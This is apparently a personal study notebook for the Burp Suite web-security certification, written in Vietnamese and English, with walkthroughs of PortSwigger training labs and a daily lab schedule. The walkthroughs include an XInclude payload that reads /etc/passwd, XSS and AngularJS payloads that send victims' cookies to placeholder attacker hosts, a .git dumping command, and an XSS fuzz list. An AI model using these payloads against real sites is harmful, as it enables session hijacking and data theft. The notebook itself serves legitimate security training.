

[Làm theo form này](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study)
# BSCP Lab Schedule — 1 Lab/Ngày

---

## Scaning


### Focus Scanning
 


click như trên để scan 

click vào dashboard để thấy được thông tin ; sau đó test bằng payload ở dưới để đọc passwd


Payload : 
```code!
%3cfoo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"%3e%3cxi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/%3e%3c/foo
```

### Scanning non-standard data structures 

#### Bước 1 — Đăng nhập và quan sát session cookie
Đăng nhập với `wiener:peter`. Vào `Proxy` → `HTTP History`, tìm `request GET /my-account?id=wiener`.

Quan sát `cookie session`: Cookie chứa username ở dạng `cleartext`, theo sau là một `token`, phân tách bởi dấu hai chấm (`:`). Điều này gợi ý rằng ứng dụng xử lý giá trị `cookie` như hai input riêng biệt. PortSwigger
Ví dụ cookie trông như:`wiener:abc123tokenxyz`
Mục đích: Nhận ra rằng Burp Scanner mặc định sẽ coi toàn bộ cookie là một giá trị duy nhất, nên không thể phát hiện lỗ hổng nằm ở phần username. **Ta cần chỉ định insertion point thủ công**.

#### Bước 2 — Scan selected insertion point
Chọn (highlight) phần đầu tiên của session cookie — phần cleartext wiener. Click chuột phải chọn "Scan selected insertion point", rồi nhấn OK. PortSwigger
Mục đích: Thay vì scan toàn bộ cookie, ta chỉ đánh dấu phần username làm điểm chèn payload. Đây chính là kỹ thuật cốt lõi của bài lab — khi gặp cấu trúc dữ liệu không chuẩn, Burp Scanner sẽ coi toàn bộ chuỗi như một giá trị duy nhất và chèn payload sai vị trí. Bằng cách tự định nghĩa insertion point, ta có thể scan chính xác từng phần riêng biệt. PortSwigger

#### Bước 3 — Xem kết quả scan
Vào Dashboard, đợi khoảng 1 phút. Burp Scanner sẽ báo cáo một issue Cross-site scripting (stored). PortSwigger
Mở tab Request ở panel phía dưới để xem request mà Burp Scanner đã dùng để phát hiện lỗ hổng. Gửi request này sang Repeater.

#### Bước 4 — Craft payload XSS để lấy cookie admin
Vào tab Collaborator → Copy to clipboard để lấy Burp Collaborator domain.
Trong Repeater, dùng Inspector để xem cookie ở dạng decoded. Thay thế PoC của Burp bằng payload exfiltrate cookie:
```code!
'"><svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>:YOUR-SESSION-TOKEN-PART
```
Lưu ý quan trọng:

Phần trước dấu : → payload XSS (thay thế cho username)
Phần sau dấu : → giữ nguyên session token hiện tại của bạn (không được xóa)
URL encode các ký tự đặc biệt nếu cần (dấu ', ", <, >, backtick)

Mục đích: Khi admin truy cập trang, payload XSS stored sẽ thực thi trong browser của admin, gửi cookie của admin đến Collaborator server của bạn.


#### Bước 5 — Thu thập cookie admin
Nhấn Apply changes → Send trong Repeater.
Quay lại tab Collaborator, đợi khoảng 1 phút, nhấn `Poll now`. Collaborator server sẽ nhận được các tương tác DNS và HTTP mới PortSwigger — trong đó chứa cookie của admin được encode trong URL path.
Decode URL để lấy giá trị cookie admin.


#### Bước 6 — Truy cập admin panel và xóa carlos
Trong browser, mở DevTools (F12) → Application/Storage → Cookies. Thay thế session cookie hiện tại bằng cookie admin vừa lấy được.
Truy cập /admin panel → tìm và xóa user carlos → lab solved.


 

## CONTENT DISCOVERY

- [ ] **20/4** — Information disclosure in version control history
### Information disclosure in version control history 
```code!
wget https://raw.githubusercontent.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/main/wordlists/burp-labs-wordlist.txt

ffuf -c -w ./burp-labs-wordlist.txt -u https://TARGET.web-security-academy.net/FUZZ
```
Cái này có vẻ dir của burp ; chỉ cần fuff để lấy thêm path thôi



Chỉnh sửa như trên để vào discorver ; nó tương tự như fuff l nhưng có vẻ thông minh hơn bới có thể tìm nhiều cấp

[Sau đây là dir mặc định của lab](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/wordlists/burp-labs-wordlist.txt)

Chuyển sang tab control để xem quá trình chạy ; thời gian chạy là khá lâu -> có thể làm việc khác



Sau đó dùng python download về máy with script command : 
```code!
python -m git_dumper https://0af80073046599598378785800c000d3.web-security-academy.net/.git dumped 
```



You can see admin password -> no i am was treated



Using `git log -p --all` to see history commit ; as the result i see actually password : `2e2l5mj2rtdq84xi11a7`



Using this credential to login admin panel



delete carlos to solve this lab

NOTE: always open source code to see some comment of dev ; it can reveal some hidden path or file and it can lead to symphony token deserialization.

---

## DOM-XSS

- [ ] **21/4** — DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

DOM base XSS xảy ra khi attacker lấy dữ liệu từ nguồn có thể kiểm soát truyền đoạn code đó đến 1 đoạn **sink** có thể thực thi mã js 
And we can using fuzz to check liệu rằng có thể escape được không

 
```code!
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer

>
<>
\'
\"
\'\"
'
"
'"
<script>
<script>fuzzer
</script>
<script></script>
{{7*7}}
{{fuzzer}}
$(alert(1)}
$(fuzzer}
${7*7}
${alert(1)}
"-prompt(69)-"
'-prompt(69)-'
"-alert(1)-"
'-alert(1)-'
-prompt(69)-
"fuzzer
'fuzzer
fuzzer
<fuzzer>
<script>{{7*7}}
{{7*7}}fuzzer
<script>alert(1)</script>
<script>prompt(69)</script>
"><script>alert(1)</script>
'><script>alert(1)</script>
"-alert(1)-"fuzzer
"><fuzzer>
<>"'
<>\'\"
<>"'<script>
<>"'<script>{{7*7}}
<>"'<script>{{7*7}}$(alert(1)}
<>"'<script>{{7*7}}$(alert(1)}"-prompt(69)-"
<>\'\"<script>{{7*7}}
<>\'\"<script>{{7*7}}$(alert(1)}
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"
{{7*7}}$(alert(1)}
{{7*7}}$(alert(1)}"-prompt(69)-"
$(alert(1)}"-prompt(69)-"
\'
\"
\
"><script>{{7*7}}</script>
'><script>{{7*7}}</script>
{{constructor.constructor('alert(1)')()}}
{{constructor.constructor('prompt(69)')()}}
"-{{7*7}}-"
'-{{7*7}}-'
"><svg>{{7*7}}</svg>
<svg>{{7*7}}</svg>
```
And we can check one by one 


```code!
document.write()
window.location
document.cookie
eval()
document.domain
WebSocket()
element.src
postMessage()
setRequestHeader()
FileReader.readAsText()
ExecuteSql()
sessionStorage.setItem()
document.evaluate()
JSON.parse
ng-app
URLSearchParams
replace()
innerHTML
location.search
addEventListener
sanitizeKey()
```
And review source code to find sink ; which may be lead to exploit 


by the Dom Invader we can easy to find the sink ; and after let exploit 


Ở đây ta exploit lỗ hỏng ở AngularJS bằng payload sau : 
```code!
{{$on.constructor('alert(1)')()}}
```
Mở rộng hơn thế là cướp cookie 
```code!
{{$on.constructor('document.location="https://OASTIFY.COM?c="+document.cookie')()}}
```
[Resource của paylaod trên được láy ở đây](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/5cbfeb2a11577ad62a31f72635a000bf5dcce293/payloads/CookieStealer-Payloads.md)
hoặc [ở đây](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-reflected--1.0.1---1.1.5-(shorter))


- [ ] **22/4** — DOM XSS in document.write sink using source location.search inside a select element
- [ ] **23/4** — DOM XSS using web messages and JSON.parse
- [ ] **24/4** — DOM XSS using web messages and a JavaScript URL
- [ ] **25/4** — DOM XSS using web messages
- [ ] **26/4** — Reflected DOM XSS
- [ ] **27/4** — DOM-based cookie manipulation

---

## CROSS SITE SCRIPTING (XSS)

- [ ] **28/4** — Reflected XSS into HTML context with most tags and attributes blocked
- [ ] **29/4** — Reflected XSS with some SVG markup allowed
- [ ] **30/4** — Reflected XSS into HTML context with nothing encoded
- [ ] **1/5** — Reflected XSS into HTML context with all tags blocked except custom ones
- [ ] **2/5** — DOM XSS in jQuery selector sink using a hashchange event
- [ ] **3/5** — Reflected XSS into a JavaScript string with single quote and backslash escaped
- [ ] **4/5** — Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
- [ ] **5/5** — Reflected XSS with AngularJS sandbox escape without strings
- [ ] **6/5** — Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
- [ ] **7/5** — Practice Exam Stage 1 — XSS via JSON into EVAL
- [ ] **8/5** — Exploiting cross-site scripting to steal cookies (Stored XSS)
- [ ] **9/5** — Exploiting DOM clobbering to enable XSS
- [ ] **10/5** — Stored DOM XSS

---

## WEB CACHE POISONING

- [ ] **11/5** — Web cache poisoning with an unkeyed header
- [ ] **12/5** — Web cache poisoning via an unkeyed query parameter
- [ ] **13/5** — Parameter cloaking
- [ ] **14/5** — Web cache poisoning via ambiguous requests
- [ ] **15/5** — Web cache poisoning with multiple headers
- [ ] **16/5** — Web cache poisoning via a fat GET request

---

## HOST HEADERS

- [ ] **17/5** — Password reset poisoning via middle-ware
- [ ] **18/5** — Host validation bypass via connection state attack

---

## HTTP REQUEST SMUGGLING

- [ ] **19/5** — HTTP request smuggling, obfuscating the TE header
- [ ] **20/5** — Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL
- [ ] **21/5** — Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE
- [ ] **22/5** — Exploiting HTTP request smuggling to capture other users' requests
- [ ] **23/5** — Exploiting HTTP request smuggling to deliver reflected XSS
- [ ] **24/5** — HTTP/2 request smuggling via CRLF injection
- [ ] **25/5** — Response queue poisoning via H2.TE request smuggling

---

## BRUTE FORCE

- [ ] **26/5** — Brute-forcing a stay-logged-in cookie
- [ ] **27/5** — Offline password cracking
- [ ] **28/5** — Username enumeration via response timing
- [ ] **29/5** — Username enumeration via subtly different responses
- [ ] **30/5** — Username enumeration via different responses

---

## AUTHENTICATION

- [ ] **31/5** — Inconsistent handling of exceptional input
- [ ] **1/6** — Infinite money logic flaw (Burp Macro)

---

## CSRF — ACCOUNT TAKEOVER

- [ ] **2/6** — Forced OAuth profile linking
- [ ] **3/6** — CSRF with broken Referer validation
- [ ] **4/6** — CSRF where Referer validation depends on header being present
- [ ] **5/6** — CSRF where token is tied to non-session cookie
- [ ] **6/6** — CSRF where token is duplicated in cookie
- [ ] **7/6** — CSRF where token validation depends on token being present
- [ ] **8/6** — CSRF vulnerability with no defences
- [ ] **9/6** — SameSite Strict bypass via sibling domain
- [ ] **10/6** — SameSite Lax bypass via cookie refresh

---

## PASSWORD RESET

- [ ] **11/6** — Password reset broken logic
- [ ] **12/6** — Weak isolation on dual-use endpoint
- [ ] **13/6** — Exploiting time-sensitive vulnerabilities

---

## SQL INJECTION

- [ ] **14/6** — Blind SQL injection with time delays and information retrieval
- [ ] **15/6** — Blind SQL injection with out-of-band data exfiltration
- [ ] **16/6** — Blind SQL injection with out-of-band interaction
- [ ] **17/6** — Blind SQL injection with conditional responses
- [ ] **18/6** — SQL injection attack, listing the database contents on Oracle
- [ ] **19/6** — SQL injection attack, listing the database contents on non-Oracle databases
- [ ] **20/6** — Visible error-based SQL injection
- [ ] **21/6** — SQL injection with filter bypass via XML encoding

---

## JWT

- [ ] **22/6** — JWT authentication bypass via jwk header injection
- [ ] **23/6** — JWT authentication bypass via weak signing key
- [ ] **24/6** — JWT authentication bypass via kid header path traversal
- [ ] **25/6** — JWT authentication bypass via jku header injection

---

## PROTOTYPE POLLUTION

- [ ] **26/6** — Client-side prototype pollution in third-party libraries
- [ ] **27/6** — Privilege escalation via server-side prototype pollution

---

## API TESTING

- [ ] **28/6** — Exploiting a mass assignment vulnerability
- [ ] **29/6** — Exploiting server-side parameter pollution in a query string

---

## ACCESS CONTROL

- [ ] **30/6** — User role can be modified in user profile
- [ ] **1/7** — Authentication bypass via flawed state machine
